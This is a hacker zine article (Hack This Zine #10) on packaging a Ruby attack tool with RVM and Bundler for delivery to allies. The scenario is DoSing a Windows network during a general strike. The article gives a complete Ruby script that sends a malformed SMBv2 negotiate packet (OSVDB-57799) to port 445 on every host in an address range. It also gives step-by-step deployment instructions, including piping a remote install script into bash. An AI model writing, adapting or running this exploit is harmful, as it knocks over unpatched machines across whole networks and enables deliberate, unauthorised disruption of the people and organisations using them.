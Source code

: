 ﻿---
layout: default
title: "Hack This Zine #10 article - Delivering Weaponized Exploits with Ronin, RVM, and Bundler with evoltech and postmodern"
---

# Hack This Zine #10 article - Delivering weaponized exploits with Ronin, RVM, and Bundler

One of the challenges I have found when developing with ruby has been with configuring my ruby development environment.  Trying to get the right version of ruby installed then all of the required gems only to find out that I need to upgrade my copy of ruby gems which is not supported by my OS packaging system. Postmodern turned me onto rvm [1] and bundler [2] which has been a revelation similar to the discovery of yum and apt-get after manually managing rpm and dpkg dependencies by hand.  There is some overlapping functionality in rvm and bundler, but they can be used together to prevent you from having to install a specific ruby environment from scratch, and provides a simple way to specify application dependencies for development and deployment.

Consider the following scenario.  You and your tech collective have been tasked with providing a weaponized tool capable DOSing a windows network in solidarity with some general strike.  The requirements of the tool are that it is simple to use, requires running only a few commands, and requires no manual intervention once running.  Your group decides to implement the tool in ruby leveraging the ronin environment.  The group has access to its own custom ronin overlays, and custom ruby libraries which are not publicly published, as well as all of the other public ruby libraries which are published. After  finishing the app your group needs a simple way to package it all up and send it off to the folk who requested the tool.  This can be done easily with rvm and bundler.  The included Readme.txt sent to your allies may look something like this:

Install a Ruby 1.9.1 environment with rvm (pay attention to any notes on
modifying your .bashrc here):
        $ bash < <( curl http://rvm.beginrescueend.com/releases/rvm-install-head )
        $ exec ~/.bashrc
        $ rvm install 1.9.1 ; rvm 1.9.1
        $ gem install bundler

Pull down the code for the netDOS app (contents of this are described below)
        # Note: no one but your tech-collective and client has access to this repo.
        $ git clone git://your.sketchy.crew.org/netDos.git
        $ cd netDos

Install the dependencies for the netDOS app:
        $ bundle install

Run netDos:
        $ ./netDos 10.1.1.1/24

To make achieve this level of ease all the team had to do is specify the specific dependencies for netDOS in a file called `Gemfile` in the apps main directory that references the specific version of the libraries used, optionally with a path to a source location.  ie:

        $ cat Gemfile
        source :gemcutter
        gem 'open_namespace', '~> 0.3.0'
        gem 'dm-core', '~> 0.10.0'
        gem 'ronin', '~> 0.4.0', :git =>'http://github.com/ronin-ruby/ronin.git'
        gem 'ronin-support', '~> 0.1.0', :git =>'http://github.com/ronin-ruby/ronin-support.git'

Then roll it up for deployment with (saving all dependencies in your app's main directory under vendor/cache):
        $ bundle package

A quick look through recent vulnerabilities brings you to a likely match from OSVDB-57799 [3] which describes a flaw in the SMBv2 that can trigger a dereference 
to an out of bound memory area.  And bonus for you (cause you have been working late nights and all your get for all this activisty work is dumpstered bagels) someone already wrote a proof of concept [4].  All you have to do is weaponize it for your clients target [5]:

        #!/usr/bin/env ruby
        require 'ronin/extensions/ip_addr'
        require 'ronin/network/tcp'
        payload = [
          "\x00\x00\x00\x90", # Begin SMB header: Session message
          "\xff\x53\x4d\x42", # Server Component: SMB
          "\x72\x00\x00\x00", # Negociate Protocol
          "\x00\x18\x53\xc8", # Operation 0x18 & sub 0xc853
          "\x00\x26", # Process ID High: --> :) normal value should be "\x00\x00"
          "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xfe",
          "\x00\x00\x00\x00\x00\x6d\x00\x02\x50\x43\x20\x4e\x45\x54",
          "\x57\x4f\x52\x4b\x20\x50\x52\x4f\x47\x52\x41\x4d\x20\x31",
          "\x2e\x30\x00\x02\x4c\x41\x4e\x4d\x41\x4e\x31\x2e\x30\x00",
          "\x02\x57\x69\x6e\x64\x6f\x77\x73\x20\x66\x6f\x72\x20\x57",
          "\x6f\x72\x6b\x67\x72\x6f\x75\x70\x73\x20\x33\x2e\x31\x61",
          "\x00\x02\x4c\x4d\x31\x2e\x32\x58\x30\x30\x32\x00\x02\x4c",
          "\x41\x4e\x4d\x41\x4e\x32\x2e\x31\x00\x02\x4e\x54\x20\x4c",
          "\x4d\x20\x30\x2e\x31\x32\x00\x02\x53\x4d\x42\x20\x32\x2e",
          "\x30\x30\x32\x00"
        ].join

        unless ARGV.length > 0
          puts "usage: [IPv4 | IPv6 | CIDR Range | Globbed Range] ..."
          puts "examples:"
          puts " #{$0} 10.1.1.1"
          puts " #{$0} 10.1.1.1/24"
          puts " #{$0} 10.1.*.1-5"
          exit -1
        end 

        ARGV.each do |range|
          IPAddr.each(range) do |ip|
            begin
              puts "[-] Sending SMB payload to #{ip} ..."
              Net.tcp_connect_and_send(payload,ip,445)
            rescue
              puts "[!] Skipping #{ip}"
              next
            end
          end
        end

This file would be included in the repo with the Gemfile as well as the 
Gemfile.lock, and all of the files installed in vendor/cache after running `bundle package`.  Then finish the night by sending off an email with the simple instructions above to your friends, grab beverage of your choice, and head down to the tracks to enjoy the rest of your evening.

[1] RVM - Ruby Version Manager http://rvm.beginrescueend.com/

[2] Bundler is a tool that manages gem dependencies for your ruby application. It takes a gem manifest file and is able to fetch, download, and install the gems and all child dependencies specified in this manifest. It can manage any update to the gem manifest file and update the bundle's gems accordingly. It also lets you run any ruby code in context of the bundle's gem environment.
http://github.com/carlhuda/bundler/blob/master/README.md

[3] OSVDB-57799 'Microsoft Windows srv2.sys Kernel Driver SMB2 Malformed 
NEGOTIATE PROTOCOL REQUEST Remote DoS' : http://osvdb.org/57799

[4] OSVDB-57799 proof of concept by Laurent Gaffié : 
http://g-laurent.blogspot.com/2009/09/windows-vista7-smb20-negotiate-protocol.html

[5] Weaponized OSVDB-57799 written by postmodern: http://gist.github.com/183261
